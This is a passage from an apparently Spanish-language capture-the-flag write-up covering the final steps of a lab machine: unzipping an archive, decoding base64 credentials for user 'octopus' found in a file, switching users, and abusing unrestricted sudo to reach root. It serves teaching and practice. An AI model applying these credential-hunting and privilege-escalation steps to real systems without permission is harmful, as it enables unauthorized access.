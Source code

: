 Procedemos a descomprimirlo:
```bash
7z x importante_octopus.zip
```

Ahora tenemos muchos archivos:
```bash
 Configurations2   META-INF   Thumbnails   content.xml   importante_octopus.txt   importante_octopus.zip   leerme.xml   manifest.rdf   meta.xml   mimetype   settings.xml   styles.xml
```

Vemos el contenido del archivo: **leerme.xml**
```bash
 Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.
 
 usuario: octopus
 password: ODBoMjM4MGgzNHVvdW8zaDQ=
```

Tenemos las credenciales el **base64** del usuario **octopus**, Para decodificarlas ejecutamos el siguiente comando:
```bash
echo -n "ODBoMjM4MGgzNHVvdW8zaDQ=" | base64 -d
```

y obtenemos lo siguiente:
```bash
80h2380h34uouo3h4
```

Migramos al usuario: **octopus**
```bash
# Comando para escalar al usuario: ( octopus )
su octopus # ( 80h2380h34uouo3h4 )
```
###### Usuario `[ octopus ]`:
Listando los permisos del usuario vemos que podemos ejecutar cualquier comando como cualquier usuario:
```bash
User octopus may run the following commands on d6b8e2f83c62:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL
```

Explotando privilegio:
```bash
# Comando para escalar al usuario: ( root )
```

```bash
sudo su # ( 80h2380h34uouo3h4 )
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@d6b8e2f83c62:/home/octopus# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a abusar del usuario **anonymous** del servicio **FTP**
2. Aprendimos a realizar **Esteganografia** para obtener archiivos ocultos
3. Aprendimos a abusar de los permisos de usuarios para migrar al usuario privilegiado del sistema

